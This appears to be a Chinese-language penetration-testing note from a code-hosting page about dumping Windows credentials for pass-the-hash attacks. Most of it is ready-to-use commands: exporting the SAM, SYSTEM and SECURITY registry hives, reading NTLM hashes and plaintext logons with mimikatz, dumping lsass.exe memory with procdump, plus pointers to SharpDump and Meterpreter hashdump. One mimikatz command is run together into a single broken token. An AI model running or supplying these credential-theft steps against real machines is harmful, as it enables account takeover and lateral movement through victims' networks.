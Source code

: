 > hash注入的原理是，将我们预备好的目标机器的本地或者是域用户hash注入到本地的认证进程`lsass.exe`中去
>
> 使得本地在使用`ipc`登录目标机器的时候就如同自己登录自己的机器一样获得权限

## 无工具利用注册表 + mimikatz本地读取（推荐）

**（1）导出SAM和System文件**

 Win2000和XP需要先提到`SYSTEM`，03开始直接可以reg save

```bash
reg save hklm\sam sam.hive
reg save hklm\system system.hive
reg save hklm\security security.hive
```

**（2）mimikatz本地读取 NTML Hash**

> mimikatz可以从内存中提取明文编码、散列值、PIN和Kerberos票据；
>
> 还可以用来执行哈希传递、票据传递和构建黄金票据（Golden Ticket）。

```bash
#将导出的文件和mimikatz放到同一目录
mimikatz.exelsadump::sam /sam:sam.hive /system:system.hive /security:security.hive
```

## Sharpdump

需要.NET 3.5版本框架

 下载地址：https://github.com/GhostPack/SharpDump 

## Procdump + mimikatz本地读取

**（1） Procdump dump lsass（管理员权限下运行 ）**

```bash
#32位系统
procdump.exe -accepteula -ma lsass.exe lsass.dmp

#64位系统
procdump.exe -accepteula -64 -ma lsass.exe lsass.dmp
```

**（2）mimikatz本地读取hash**

```bash
#放到同一目录
sekurlsa::minidump lsass.dmp
sekurlsa::logonPasswords full
```

## MSF模块

如果你有一个SYSTEM权限的`Metepreter`会话，可以直接`hashdump`（只能dump本地用户）
